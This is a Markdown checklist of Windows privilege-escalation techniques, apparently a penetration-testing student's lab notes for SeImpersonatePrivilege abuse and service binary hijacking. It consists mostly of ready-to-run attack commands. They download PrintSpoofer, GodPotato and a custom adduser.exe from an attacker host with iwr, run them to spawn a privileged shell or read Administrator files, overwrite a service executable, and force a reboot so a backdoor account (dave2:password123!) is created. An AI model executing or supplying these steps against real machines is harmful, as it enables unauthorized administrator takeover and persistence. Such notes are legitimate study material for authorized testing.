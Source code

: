 
---
# Privesc Techniques


## SEImpersonatePrivilege

- [ ] PrintSpooler
```
iwr -uri http://192.168.xxx.xxx/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

- [ ] GodPotato
```
iwr -uri http://192.168.xxx.xxx/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\proof.txt"
.\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\proof.txt"
```

- [ ] If these both fail somehow on a newly created shell, try juicy potato or rouge potato (requires smb)
## Service Binary Hijacking

- [ ] Found a running service with a binary
- [ ] Verified that the current user has write access
```
icacls "C:\path\to\executable.exe"
```
- [ ] Recompile *adduser* if not using x86_64 from kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
- [ ] Download adduser
```
iwr -uri http://192.168.xxx.xxx/adduser.exe -Outfile adduser.exe
```
- [ ] Check if dave2 already exists
```
net user
```
- [ ] Copy adduser to file path
```
move .\adduser.exe C:\path\to\executable.exe
```
- [ ] Attempt to restart system
```
shutdown /r /t 0
```
- [ ] Restart Service
```
Restart-Service service
```
- [ ] Check if dave2 exists
```
net user
```
- [ ] Log in with dave2:password123!
## Service DLL Hijacking
